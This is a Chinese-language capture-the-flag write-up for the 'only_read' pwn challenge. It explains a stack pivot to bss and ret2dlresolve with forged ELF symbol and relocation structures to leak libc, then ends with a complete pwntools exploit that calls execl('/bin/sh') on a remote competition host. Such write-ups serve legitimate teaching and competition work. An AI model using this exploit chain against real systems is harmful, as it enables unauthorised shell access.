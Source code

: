 # only_read

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.39-0ubuntu8.4|

## 解题思路

整个程序非常简单，`main`就构造了一个很大的栈溢出，也没啥gadget，但至少没开PIE。
一旦能打栈迁移到bss，就有机会打dl_resolve，实现任意符号解析（但是控制不了参数）。

第一步控制`rbp`到bss上，第二步向bss上读入要伪造的符号和rop链再次读入，
第三步执行伪造的`write`泄露libc并把open shell的rop链写到bss上，执行拿shell。

第一步和第三步都没啥好说的，唯一比较麻烦的就是符号伪造。
还好我以前[做过类似的题](https://rocketma.dev/2023/10/10/W3_dlresolve/)，
可以用来借鉴。

> [!WARNING]
> 原博客对于`reloc_arg`的描述有误，它是相对于`__DT_JMPREL`的，
> 不是相对于`__DT_SYMTAB`，现已更新。

这次我采用了人工构造的方式去伪造一个`write`符号，即`Elf64_Sym`和`Elf64_Rela`，
接下来将图解我构造的结构体：

![payload struct](assets/dl_resolve.png)

> [!IMPORTANT]
> `fake_sym`和`fake_rel`需要分别对齐到从`symtab`和`jmprel`开始的0x18边界上，
> 否则`_dl_fixup`不能正确读取我们的伪造的符号。可以看以下代码中的`test_offsets`做参考。

当开始执行`plt_init`时，就会运行`_dl_runtime_resolve_xsavec`，随后执行`_dl_fixup`，
将我们伪造的各种数据作为参数开始解析`write`函数并运行，如下图所示：

![lookup symbol](assets/dl_fixup.png)

由于在执行`write`前，`write@libc`就会被写入，因此执行时就会泄露libc，
之后再次读入payload时就可以构造`execl("/bin/sh", "/bin/sh", NULL)`打开shell。

在这个过程中，`rdi`和`rdx`保持不变，因此会输出很多字节；由于对于远程来说，
`fd = 0`和`fd = 1`是完全一致的，都是socket，就像直接在终端打开，都是`/dev/pts/1`，
因此，`fd = 0`既可以读也可以写。但是pwntools不一样，使用`process`打开进程，
`fd = 0`会指向一个无名管道，而这个管道只能读不能写，因此向`fd = 0`中`write`数据不可行。
为了避免这个问题，我采用了用docker起一样的libc环境，然后由 *xinetd* 起一个 *gdbserver*，
这样就可以实现远程调试。具体见我[StackLogout的出题博客](https://rocketma.dev/2024/12/22/StackLogout/)。

> [!IMPORTANT]
> 当我起了容器开始调试以后，突然发现在本地能打的脚本远程突然就打不了了，
> 一看是`strtab`和`symtab`变了。原来在patchelf的时候，`strtab`和`symtab`会变化，
> 变得更低一些。也是因为这个原因，patch过的人和没patch的人脚本就不一样，
> 所以官方靶机布置了4个，我由于在docker里还原了libc，跑的程序就没patch，
> 本地能跑通的脚本，放到远程只有3号机可以，其他均不行。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './only_read'

def payload(lo: int):
    global t
    if lo:
        if lo & 2:
            t = remote('127.0.0.1', 3073)
            gdb.attach(('127.0.0.1', 4097),
                       '''
                       dir /usr/src/debug/glibc-2.39/
                       tb *0x40115e
                       c
                       ''',
                       EXE)
        else:
            t = remote('127.0.0.1', 2049)
    else:
        t = remote('1.95.129.168', 9999)
        t.recvuntil(b'`')
        cmd = t.recvuntil(b'`', drop=True)
        proof = process(cmd.split())
        proof.recvuntil(b'stamp: ')
        t.send(proof.recv())
        proof.close()
        t.recvuntil(b'Here is your challenge')
        success('Proof of Work passed!')

    def delay():
        if lo & 2:
            pause()
        else:
            sleep(0.5)

    # interupt when this script is not working
    def failure(msg: str):
        if b'chroot' in t.recv():
            log.failure(msg)
            t.close()

    def test_offsets(symidx: float, relidx: float) -> bool:
        no_mismatch = True
        if symidx > int(symidx):
            log.failure('SYM_OFFSET couldn\'t meet symtab[ELFW(R_SYM)(reloc->r_info)]!')
            no_mismatch = False
        if relidx > int(relidx):
            log.failure('REL_OFFSET couldn\'t meet l_info[DT_JMPREL] + reloc_arg!')
            no_mismatch = False
        return no_mismatch

    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.39-0ubuntu8.4_amd64/libc.so.6')
    elf = ELF(EXE)
    # to write 0x800 bytes, buf + count must be accessible, so + 0x880 is maximum
    bss = (elf.bss() & ~0xfff) + 0x800
    read_raw = 0x401142
    dl_resolve = 0x401020

    strtab = 0x400430
    symtab = 0x4003d0
    jmprel = 0x4004e0

    # Payload 1: re-read to pivot stack to bss section
    read_to_bss = flat(b'0' * 0x80, bss, read_raw)
    t.send(read_to_bss)
    delay()

    # Payload 2: fake Elf64_Sym and Elf64_Rela to misuse dl_resolve,
    # store write@libc on bss and then write it to leak libc,
    # then re-read to perform ret2libc
    SYM_OFFSET = 0x18
    SYM_INDEX  = (bss - 0x80 + SYM_OFFSET - symtab) / 0x18
    REL_OFFSET = 0x38
    REL_INDEX  = (bss - 0x80 + REL_OFFSET - jmprel) / 0x18
    fake_sym = flat({
        0: b'write', # symbol name

        # Elf64_Sym
        SYM_OFFSET: [
            bss - 0x80 - strtab, # st_name, offset from strtab to "write"
            # rest members of Elf64_Sym is 0
        ],

        # Elf64_Rela
        REL_OFFSET: [
            bss - 8,                    # r_offset, where to write write@libc
            7 | (int(SYM_INDEX) << 32), # r_info
            # r_append in Elf64_Rela is 0
        ],

        # to re-read, reset rbp is needed. do not impact read@libc stack frame
        0x80: bss - 0x100,
        # rop chain
        0x88: [
            dl_resolve,
            int(REL_INDEX),
            read_raw,
        ],
    }, filler=b'\0')
    assert test_offsets(SYM_INDEX, REL_INDEX), 'At least one offset is wrong'
    t.send(fake_sym)
    try:
        t.recvuntil(b'write'.ljust(8, b'\0')) # align
    except EOFError:
        # NOTE: patchelf'ed elf has different strtab and symtab, which may lead to crash
        failure('Failed to leak libc!')
        return
    libc_base = u64(t.recv(0x78)[-8:]) - libc.symbols['write']
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base
    delay()

    # Payload 3: call execl("/bin/sh", "/bin/sh", NULL) to get a shell
    gadgets = ROP(libc)
    rdx_set_0_addr = libc_base + 0x116114 # xor edx, edx; call rax
    sh_addr = next(libc.search(b'/bin/sh'))
    call_execl = flat(b'\0'.ljust(0x88, b'\0'),
                      gadgets.rax.address, libc.symbols['execl'],
                      gadgets.rdi.address, sh_addr,
                      gadgets.rsi.address, sh_addr,
                      rdx_set_0_addr)
    t.send(call_execl)

    t.clean()
    t.interactive()
    t.close()
```

![flag](assets/flag.png)

## 参考

1. [newstar2023 week3 - dlresolve - RocketDevlog](https://rocketma.dev/2023/10/10/W3_dlresolve/)
2. [赛博杯新生赛 2024 - StackLogout 出题博客 - RocketDevlog](https://rocketma.dev/2024/12/22/StackLogout/)
